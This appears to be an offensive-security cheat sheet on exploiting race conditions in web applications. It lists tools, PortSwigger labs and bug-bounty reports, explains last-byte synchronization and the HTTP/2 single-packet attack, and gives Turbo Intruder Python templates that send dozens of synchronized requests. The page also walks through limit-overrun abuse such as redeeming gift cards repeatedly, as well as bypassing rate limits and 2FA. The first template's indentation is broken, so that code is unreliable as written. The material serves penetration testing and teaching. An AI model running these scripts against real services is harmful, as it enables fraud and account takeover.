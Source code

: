 # Race Condition

> Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events. In a web application environment, where multiple requests can be processed at a given time, developers may leave concurrency to be handled by the framework, server, or programming language. 

## Summary

- [Tools](#tools)
- [Labs](#labs)
- [Exploit](#exploit)
    - [Limit-overrun](#limit-overrun)
    - [Rate-limit bypass](#rate-limit-bypass)
- [Techniques](#techniques)
    - [HTTP/1.1 last-byte synchronization](#http11-last-byte-synchronization)
    - [HTTP/2 Single-packet attack](#http2-single-packet-attack)
- [Turbo Intruder](#turbo-intruder)
    - [Example 1](#example-1)
    - [Example 2](#example-2)
- [References](#references)


## Tools

* [PortSwigger/turbo-intruder](https://github.com/PortSwigger/turbo-intruder) - a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results.
* [JavanXD/Raceocat](https://github.com/JavanXD/Raceocat) - Make exploiting race conditions in web applications highly efficient and ease-of-use.


## Labs

* [PortSwigger - Limit overrun race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun)
* [PortSwigger - Multi-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
* [PortSwigger - Bypassing rate limits via race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits)
* [PortSwigger - Multi-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
* [PortSwigger - Single-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint)
* [PortSwigger - Exploiting time-sensitive vulnerabilities](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
* [PortSwigger - Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction)


## Exploit

### Limit-overrun

Overdrawing limit, multiple voting, multiple spending of a gifcard.

**Examples**:

* [Race Condition allows to redeem multiple times gift cards which leads to free "money" - @muon4](https://hackerone.com/reports/759247)
* [Race conditions can be used to bypass invitation limit - @franjkovic](https://hackerone.com/reports/115007)
* [Register multiple users using one invitation - @franjkovic](https://hackerone.com/reports/148609)


### Rate-limit bypass

Bypassing anti-bruteforce mechanism and 2FA.

**Examples**:

* [Instagram Password Reset Mechanism Race Condition - Laxman Muthiyah](https://youtu.be/4O9FjTMlHUM)


## Techniques

### HTTP/1.1 last-byte synchronization

Send every requests execpt the last byte, then "release" each request by sending the last byte.

Execute a last-byte synchronization using Turbo Intruder

```py
engine.queue(request, gate='race1')
engine.queue(request, gate='race1')
engine.openGate('race1')
```

**Examples**:

* [Cracking reCAPTCHA, Turbo Intruder style - James Kettle](https://portswigger.net/research/cracking-recaptcha-turbo-intruder-style)


### HTTP/2 Single-packet attack

In HTTP/2 you can send multiple HTTP requests concurrently over a single connection. In the single-packet attack around ~20/30 requests will be sent and they will arrive at the same time on the server. Using a single request remove the network jitter.

* [turbo-intruder/race-single-packet-attack.py](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py)
* Burp Suite
    * Send a request to Repeater
    * Duplicate the request 20 times (CTRL+R)
    * Create a new group and add all the requests
    * Send group in parallel (single-packet attack)

**Examples**:

* [CVE-2022-4037 - Discovering a race condition vulnerability in Gitlab with the single-packet attack - James Kettle](https://youtu.be/Y0NVIVucQNE)


## Turbo Intruder

### Example 1

1. Send request to turbo intruder
2. Use this python code as a payload of the turbo intruder
    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=30,
                            requestsPerConnection=30,
                            pipeline=False
                            )

    for i in range(30):
        engine.queue(target.req, i)
            engine.queue(target.req, target.baseInput, gate='race1')


        engine.start(timeout=5)
    engine.openGate('race1')

        engine.complete(timeout=60)


    def handleResponse(req, interesting):
        table.add(req)
    ```
3. Now set the external HTTP header x-request: %s - :warning: This is needed by the turbo intruder
4. Click "Attack"


### Example 2

This following template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.

```python
def queueRequests(target, wordlists): 
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=30, 
                           requestsPerConnection=100, 
                           pipeline=False 
                           ) 
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    ''' 

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30): 
        engine.queue(request2, gate='race1') 
    engine.openGate('race1') 
    engine.complete(timeout=60) 
def handleResponse(req, interesting): 
    table.add(req)
```

## References

* [DEF CON 31 - Smashing the State Machine the True Potential of Web Race Conditions - James Kettle](https://youtu.be/tKJzsaB1ZvI)
* [Smashing the state machine: the true potential of web race conditions - James Kettle / @albinowax - 09 August 2023](https://portswigger.net/research/smashing-the-state-machine)
* [Turbo Intruder: Embracing the billion-request attack - James Kettle - 25 January 2019](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)
* [Race Condition Bug In Web App: A Use Case - Mandeep Jadon - Apr 24, 2018](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)
* [Race conditions on the web - Josip Franjkovic - July 12th, 2016](https://www.josipfranjkovic.com/blog/race-conditions-on-web)
* [New techniques and tools for web race conditions - Emma Stocks - 10 August 2023](https://portswigger.net/blog/new-techniques-and-tools-for-web-race-conditions)
* [Exploiting Race Condition Vulnerabilities in Web Applications - Javan Rasokat](https://conference.hitb.org/hitbsecconf2022sin/materials/D2%20COMMSEC%20-%20Exploiting%20Race%20Condition%20Vulnerabilities%20in%20Web%20Applications%20-%20Javan%20Rasokat.pdf)